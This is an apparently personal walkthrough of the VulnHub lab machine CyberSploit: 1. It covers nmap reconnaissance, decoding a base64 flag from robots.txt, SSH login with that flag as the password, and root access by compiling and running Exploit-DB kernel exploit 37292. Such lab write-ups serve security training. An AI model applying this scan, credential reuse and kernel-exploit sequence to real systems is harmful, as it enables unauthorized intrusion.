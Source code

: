 # CyberSploit: 1

![image](https://user-images.githubusercontent.com/44063862/88623221-1362a780-d0d7-11ea-8d8a-cd04dd008314.png)

## :link: Link 

[CyberSploit: 1](https://www.vulnhub.com/entry/cybersploit-1,506/)

## Penetration Testing Methodology

**Reconnaissance**
* Netdiscover
* Nmap

**Enumeration**
* dirbuster
* decode (base64)

**Exploitation**

**Privilege Escalation**
* gcc 37292.c

**Capturing the flag**
* Flag1
* Flag2
* Flag3

_______________________________________________________________________________________________________

## Walkthrough

```
netdiscover
```

![image](https://user-images.githubusercontent.com/44063862/88623292-39884780-d0d7-11ea-80d8-8b9e4cbe48dd.png)

```
nmap -A 192.168.235.154
```

```
root@kali:~# nmap -A 192.168.235.154
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 13:17 EDT
Nmap scan report for 192.168.235.154
Host is up (0.0011s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hello Pentester!
MAC Address: 00:0C:29:E7:39:7C (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.09 ms 192.168.235.154

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.64 seconds
root@kali:~# 
```

From the nmap scanning. I found that 2 port open. Which is
* 22 (ssh) 
* 80 (http)

I then browse to the http://ip

![image](https://user-images.githubusercontent.com/44063862/88623427-8835e180-d0d7-11ea-811a-aecb8b360179.png)

View page source, will give us some more info

![image](https://user-images.githubusercontent.com/44063862/88623632-f67aa400-d0d7-11ea-84e9-cd674396d116.png)

**HINT:** username:itsskv

**YOU SHOULD TRY SOMETHING MORE** Okay, lets do directory fuzzing. I use dirbuster.

![image](https://user-images.githubusercontent.com/44063862/88623558-c8955f80-d0d7-11ea-9f55-fe6d1ac74189.png)

We got **robots.txt**

![image](https://user-images.githubusercontent.com/44063862/88623697-1ad68080-d0d8-11ea-8277-28f26e96bb81.png)

**R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9**

Let's [decode](https://www.tunnelsup.com/hash-analyzer/)

![image](https://user-images.githubusercontent.com/44063862/88623936-99332280-d0d8-11ea-93fc-44190abb6dfc.png)

This tools analyze this character is Base 64. 

Decode [Base 64](https://gchq.github.io/CyberChef/)

![image](https://user-images.githubusercontent.com/44063862/88624013-cbdd1b00-d0d8-11ea-9956-6a1e355ab652.png)

> **Flag1: cybersploit{youtube.com/c/cybersploit}**

Okay.. Im stucked now. 

![image](https://user-images.githubusercontent.com/44063862/88624115-00e96d80-d0d9-11ea-87d8-9394de6997e1.png)

What if...... we try to.. Hmm it's okay..

Hmm.. But, we can just try is it?

Hmm.. BUT it's seems impossible. hmmm...

Let's try login into ssh using first flag.. I don't know. It seem impossible, but we don't have anything for now.

```
ssh itsskv@192.168.235.154
```

At first I put Password (cybersploit) nahh.. Then, youtube. nahh.. then, youtube.com. So, I thought, I'm being ridiculous. BUT, you know what is the answer?? It is the flag. But, not half. ITS ALL!!!

Password: cybersploit{youtube.com/c/cybersploit}

![image](https://user-images.githubusercontent.com/44063862/88624512-b2889e80-d0d9-11ea-8ef3-3d08a9057a26.png)

```
ls -al
```

![image](https://user-images.githubusercontent.com/44063862/88624594-d8ae3e80-d0d9-11ea-921d-68f8dbfa820d.png)

```
cat flag2.txt
```

![image](https://user-images.githubusercontent.com/44063862/88624674-f9769400-d0d9-11ea-9ca4-0eb51e141f45.png)

Let's decode this obvious [Binary](https://gchq.github.io/CyberChef/)

![image](https://user-images.githubusercontent.com/44063862/88624796-2e82e680-d0da-11ea-856b-22903d875b51.png)

> **flag2: cybersploit{https:t.me/cybersploit1}**

> For Privilege Escalation

```
uname -a
cd /tmp
```

![image](https://user-images.githubusercontent.com/44063862/88624924-6be77400-d0da-11ea-88d7-df94a63e6ea0.png)

OH-HOO.. Let's find the vulnerability.. 

Find: [3.13.0-32-generic](https://www.exploit-db.com/exploits/37292)

Copy the code and make a file in ste system. 37292.c (Vulnerability Code file)

```
nano 37292.c
gcc 37292.c -o root
./root
```

![image](https://user-images.githubusercontent.com/44063862/88625164-d13b6500-d0da-11ea-9a34-4c3236fa5a4f.png)

```
id
ls -al
ls -al /root
```

![image](https://user-images.githubusercontent.com/44063862/88625222-e7492580-d0da-11ea-98b3-b9cf2603e058.png)

Hehehehehe. Did you see what I see??..

```
cat /root/finalflag.txt
```

![image](https://user-images.githubusercontent.com/44063862/88625337-22e3ef80-d0db-11ea-8eb1-fa1bc6c13fe2.png)

> **flag3: cybersploit{Z3X21CW42C4 many many congratulations !}**

Okay, Thats all for Cybersploit machine. Thank you for reading. :white_flower:

**By _AdaniKamal_**
